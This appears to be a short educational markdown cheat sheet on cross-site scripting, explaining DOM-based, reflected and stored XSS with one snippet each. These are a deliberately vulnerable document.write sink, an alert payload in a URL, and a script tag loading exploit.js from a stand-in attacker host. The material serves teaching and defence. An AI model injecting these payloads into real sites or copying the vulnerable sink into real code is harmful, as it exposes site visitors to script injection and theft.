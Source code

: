 # XSS payload [cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
### [DOM Based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
The attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser. The payload is passessed to a sink that supports dynamic code execution, such as eval() or innerHTML
```js
<select>
    <script>
    document.write("<OPTION value=1>"+decodeURIComponent(document.location.href.substring(document.location.href.indexOf("default=")+8))+"</OPTION>");
    document.write("<OPTION value=2>English</OPTION>");
    </script>
</select>
```

### [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request
```js
http://example.com/vulnerable.php?user=<script>alert(123)</script>
```

### [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)
The victim then retrieves the malicious script from the server when it requests the stored information.
```js
<script src=”http://malicious.com/exploit.js”> </script>
```



